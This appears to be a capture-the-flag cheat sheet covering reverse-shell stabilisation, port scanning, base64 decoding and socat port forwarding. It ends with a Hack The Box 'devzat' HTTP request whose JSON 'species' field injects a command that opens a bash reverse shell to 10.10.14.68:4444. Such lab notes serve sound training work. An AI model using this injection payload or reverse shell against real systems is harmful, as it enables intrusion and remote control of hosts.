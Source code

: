 ## 1. Stabilize your reverse shell
    SHELL=/bin/bash script -q /dev/null 
    Ctrl-Z <
    stty raw -echo 
    fg 
    reset  
    xterm
   
 #### OR
    python3 -c "import pty;pty.spawn('/bin/bash')"
    export TERM=xterm; export SHELL=/bin/bash
    CTRL+Z
    stty raw -echo;fg
## 2. Nmap scan script
    $ cat nmap-scan.sh 
    ports=$(nmap -p- --min-rate=1000  -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -sC -sV -p$ports $1
    sudo masscan 34.125.4.41  -p0-65535,U:0-65535

   #### usage
    $ ./nmap-scan.sh <ip_to_scan>
## 3. Crypto
#### base64 encode
    $ echo -n "administrator:password" | base64
    YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==
#### base64 decode
    $ echo "YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==" | base64 -d
    administrator:password 
#### For nested base64 files
    #!/usr/bin/env python3

    import sys
    import base64

    if len(sys.argv) < 2:
      print("Usage: {} <file.b64.txt>".format(sys.argv[0]))
      sys.exit(1)

    data = open(sys.argv[1], "r").read()

    while True:
      try:
        data = base64.b64decode(data)
      except:
        break

    print(data)
    
  ##### To use it:
 

    $ python3 decode_nested_b64.py b64.txt 
    b'flag 44: ygm2my89uqzirzj0nojw'
#### base32
    $ echo "NBSWY3DPEB3W64TMMQQQU===" | base32 -d
    hello world!
  
  ## Port forwading
  ### using socat 
          socat tcp-listen:9090,fork tcp:127.0.0.1:631  ....631 is internal port  ... 9090 is the port i will in mymachine
             
   ### davzat
   
           POST /api/pet HTTP/1.1
            Host: pets.devzat.htb
            User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
            Accept: */*
            Accept-Language: en-US,en;q=0.5
            Accept-Encoding: gzip, deflate
            Referer: http://pets.devzat.htb/api/pets/
            Content-Type: text/plain;charset=UTF-8
            Origin: http://pets.devzat.htb
            Content-Length: 126
            DNT: 1
            Connection: close

            {"name":"aaaaa","species":"gopher;echo 'bash -i >& /dev/tcp/10.10.14.68/4444 0>&1' > sh.sh; chmod +x sh.sh;/bin/bash ./sh.sh"}
